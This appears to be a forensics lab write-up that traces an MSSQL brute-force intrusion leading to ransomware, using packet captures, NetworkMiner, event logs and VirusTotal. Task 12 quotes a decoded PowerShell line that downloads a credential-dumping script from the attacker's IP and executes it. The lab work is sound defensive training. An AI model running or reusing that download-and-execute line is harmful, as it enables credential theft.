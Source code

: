 #### Task 1 *Knowing the source IP of the attack allows security teams to respond to potential threats quickly. Can you identify the source IP responsible for potential port scanning activity?*

Simple way to find this would be to analyze the network traffic (HTTP).

![[image1.png]]

From looking at the HTTP traffic you can see that there are powershell files with the origin IP of *87.96.21.84*

#### Task 2 *During the investigation, it's essential to determine the account targeted by the attacker. Can you identify the targeted account username?*

We can find this information by running the network log file through **NetworkMiner** and looking at the "Credentials" tab


![[image2.png]]

Showing the Username: *Sa*


#### Task 3 *We need to determine if the attacker succeeded in gaining access. Can you provide the correct password discovered by the attacker?*

Similarly to Task 2 we can find this information on **NetworkMiner** and looking at the "Credentials Tab"


![[image3.png]]

#### Task 4 *Attackers often change some settings to facilitate lateral movement within a network. What setting did the attacker enable to control the target host further and execute further commands?*

To find this we can look into network log using Network Miner's "Parameters" tab to find that the attackers enabled *[xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)*  in order to be able to spawn a windows command shell.


![[image4.png]]


#### Task 5 *Process injection is often used by attackers to escalate privileges within a system. What process did the attacker inject the C2 into to gain administrative privileges?*

We can figure this out by looking into the provided Event Log file. Pretty early on you will notice the usage of *winlogon.exe* 



#### Task 6 *Following privilege escalation, the attacker attempted to download a file. Can you identify the URL of this file downloaded?*
We can find what downloads were made through the network log provided. 
Filtering for HTTP protocol using wireshark you will find that there was a request to http://87.96.21.84/checking.ps1

![[image5.png]]

#### Task 7 *Understanding which group Security Identifier (SID) the malicious script checks to verify the current user's privileges can provide insights into the attacker's intentions. Can you provide the specific Group SID that is being checked?*

Opening up the script file "checking.ps1" and investigating the functionality reveals that it checks for *S-1-5-32-544* 


![[image6.png]] 


#### Task 8 *Windows Defender plays a critical role in defending against cyber threats. If an attacker disables it, the system becomes more vulnerable to further attacks. What are the registry keys used by the attacker to disable Windows Defender functionalities? Provide them in the same order found.* 
In order to find the registry keys used to disable Windows Defender we first have to find where in the script this is done.

After a bit of investigating you'll come across the function "Disable-WindowsDefender". Within this function you'll find the registry keys.


![[image7.png]]


#### Task 9 *Can you determine the URL of the second file downloaded by the attacker?* 
We can easily find this similarly to Task 6.


![[image8.png]]

#### Task 10 *Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks. What's the full name of the task created by the attacker to maintain persistence?*

First thing we need to do is identify where in the script the attacker utilizes **schtasks.exe** to create a task. After that it is just a matter of analyzing it.


![[image9.png]]


#### Task 11 *According to your analysis of the second malicious file, what is the MITRE ID of the tactic the file aims to achieve?* 
Analyzing the code will show it terminating specific monitoring and security tools such as ProcessHacker and Promon. By doing so it allows the attacker to prevent detection. 


![[image15.png]]

This type of behavior falls under the category *Defense Evasion (TA0005)"* and more specifically *Impair Defenses - Disable or Modify Tools (T1562.001)*


#### Task 12 *What's the invoked PowerShell script used by the attacker for dumping credentials?*

In order to find this we need to determine at what point in the script this is done. 

After some investigating you'll come across a encoded variable that when decoded translates to :

*(New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/Invoke-PowerDump.ps1') | Invoke-Expression*

Exporting this script from the network log will give you a file used for post exploitation dumping of credentials


![[image10.png]]


#### Task 13 *Understanding which credentials have been compromised is essential for assessing the extent of the data breach. What's the name of the saved text file containing the dumped credentials?* 

In order to find this we simply need to find where in the script these credentials are being store/used. 

You'll come across the variables "usernames", "passwordHashes", and "hashesContent"

Where the variable "hashesContent" holds the dumped credentials.


![[image11.png]]

#### Task 14 *Knowing the hosts targeted during the attacker's reconnaissance phase, the security team can prioritize their remediation efforts on these specific hosts. What's the name of the text file containing the discovered hosts?*

Going back the the network log we can look through the files exported through the HTTP protocol. There you'll come across the file named **extracted_hosts.txt**


![[image12.png]]

#### Task 15 *After hash dumping, the attacker attempted to deploy ransomware on the compromised host, spreading it to the rest of the network through previous lateral movement activities using SMB. You’re provided with the ransomware sample for further analysis. By performing behavioral analysis, what’s the name of the ransom note file?*
We can analyze the ransomwares behavior by utilizing malware sandboxes such as [VirusTotal](https://www.virustotal.com/gui/home/upload)

After [uploading](https://www.virustotal.com/gui/file/3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb/behavior) the file you are able to investigate the files it drops onto the system, There you'll find the ransom note.


![[image13.png]]

#### Task 16 *In some cases, decryption tools are available for specific ransomware families. Identifying the family name can lead to a potential decryption solution. What's the name of this ransomware family?*

Doing a bit of digging through the VirusTotal analysis report will give you the ransomware family that it belongs to. 


![[image14.png]]

